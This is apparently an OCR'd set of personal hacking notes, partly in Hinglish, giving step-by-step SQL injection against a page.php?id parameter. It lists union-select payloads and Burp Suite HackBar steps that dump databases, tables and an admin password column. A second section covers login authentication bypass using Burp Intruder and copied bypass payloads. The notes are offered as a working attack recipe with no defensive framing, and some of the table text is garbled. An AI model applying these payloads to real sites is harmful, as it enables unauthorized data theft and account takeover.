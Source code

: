 step 7 :- id=-5'+union+select+1,2,3,version(),5,6,7,8,9,10,11,12,13+--+-
• id=-5'+union+select+1,2,3,database(),5,6,7,8,9,10,11,12,13+--+-
• id=-5'+union+select+1,2,3,database(),version(),6,7,8,9,10,11,12,13+--+- |  |

step 8 :- **Where extension hackbar located in burpsuit**
Extension —> BApp store —> Search Hackbae,Payload,bucket —>install |  |

step 9 :- • now i have this url :-
GET /page.php?id=-5'+union+select+1,2,3,database(),database(),6,7,8,9,10,11,12,13+--+- HTTP/2
• delete one database() in url
id=-5'+union+select+1,2,3,database(), ,6,7,8,9,10,11,12,13+--+- |  |

step 10 :- • right click on between , , —> Extension —> HackBar,Payload Bucket —> hack Bar —> SQLi Injection —> DIOS MYSQL —> tr0jan WAF —> click send butten | All database dump in one short |

step 11 :- id=-5'+union+select+1,2,3,database(), ,6,7,8,9,10,11,12,13+--+-
• right click on between , , —> Extension —> HackBar,Payload Bucket —> hack Bar —> SQLi Injection —> Table —> Table group concat —> ok —> send —> watch in rander | All table nikalna padega to |

step 12 :- id=-5'+union+select+1,2,3,database(), ,6,7,8,9,10,11,12,13+--+-
• right click on between , , —> Extension —> HackBar,Payload Bucket —> hack Bar —> SQLi Injection —> Column —> column group concat —>
• enter table name = admin —> ok —> send | Agar mujhe admin ka table dekhna huaa to. |
| id=-5'+union+select+1,2,3,database(), ,6,7,8,9,10,11,12,13+--+-
• right click on between , , —> Extension —> HackBar,Payload Bucket —> hack Bar —> SQLi Injection —> Data —> Data group concat —>
• Enter database    = dont change click ok
• Enter tablename  = admin click ok
• Enter coloum to dump  = password  click ok —> send | Agar mujhe password dekhna rha ho  |
|  |  |

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

| **Authentication Bypass** |  |
| https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md |  |
step 0] username me ' lagake check kro ki sql injection vulnerebility hai ya nahi. agar error aaye sql se related ya blank hojaye to error hai.
step 1]  login page pe admin/admin daalo. 
step 2] burp pe request ko accept kro.
step 3] us request ko intruder pe send kro.
step 4] target check kro. intruder pe
step 6] pojision pe jake sniper select kro.
step 7] payload entro point ko select kerke clear kro.
step 8] username me && ye sumbool add kro admin ko hata ke. aue password ko aise hi rhne do.
step 9] https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md  .....yaha se authentacation bypass ka payload copy kro.
step 10] payload me jake paload opsion me past ker do 
step 11] start attack pe click kerdo. 
step 12] states code jo different aaye use copy ker lo.
step 13] use login page pe username pe past ker do. aur password me kuchh bhi daal do.
step 14] login hojao.
